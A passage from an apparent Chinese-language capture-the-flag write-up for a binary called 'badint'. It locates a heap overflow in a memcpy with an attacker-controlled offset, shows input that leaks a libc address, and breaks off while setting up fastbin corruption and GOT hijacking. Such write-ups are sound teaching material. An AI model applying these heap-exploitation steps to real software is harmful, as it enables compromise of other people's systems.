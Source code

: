 ```
*** Error in `./badint': free(): invalid next size (fast): 0x000000000224a0c0 ***
```

看起來是因為 heap overflow 的關係導致 `free()` 在檢查 nextsize 時發現錯誤，直接 abort 程式。經分析後發現漏洞發生在以下程式碼:

```c
 len = get_len(cur_obj);
 data = get_data(cur_obj);
 offset = get_offset(cur_obj);
 memcpy(new_buf + offset, data, len); // <-- 這裡
```

程式在複製 data 進 heap buffer 時，採用 `memcpy(new_buf + offset, data, len)` 這樣的形式進行複製。因為 `offet` 我們可控的關係，因此我們可以指定複製的起點，進而觸發 heap overflow 漏洞。

## Exploit
首先來 leak address 吧。透過以下操作，我們可以 leak 出 libc 的 address:

```
$ ./badint 
SEQ #: 1
Offset: 8
Data: 111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
LSF Yes/No: Yes
RX PDU [1] [len=144]
Assembled [seq: 1]: 788ba4952b7f000011111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111

SEQ #:
```

我們將 offset 設定為 8，之後程式會將 data 複製進 `heap_buf+8`。其中，`heap_buf` 為一個被重新 allocate 的 unsortbin chunk，因此其 `fd` 跟 `bk` 均會包含 libc address ( 實際上為 `main_arena+88` )。此時我們將 data 複製進 `heap_buf` 時，只有 `bk` 會被蓋掉，因此之後程式印出 assebled 的 data 時，會將 `fd` 的內容給 leak 出來，我們就拿到了 libc 的 address。

之後要來想辦法控制程式流程。這裡我是利用 fastbin corruption 搭配 GOT hijacking 來達到這件事。首先我們想辦法排出類似下面的 heap layout:
```
gdb-peda$ hip
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0xc26cc0 --> 0x0
(0x40)     fastbin[2]: 0xc26c80 --> 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0xc26c20 --> 0x0   
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0xc26f10 (size : 0x1c0f0) 
       last_remainder: 0xc26e00 (size : 0x50) 
            unsortbin: 0x0
gdb-peda$ 
```
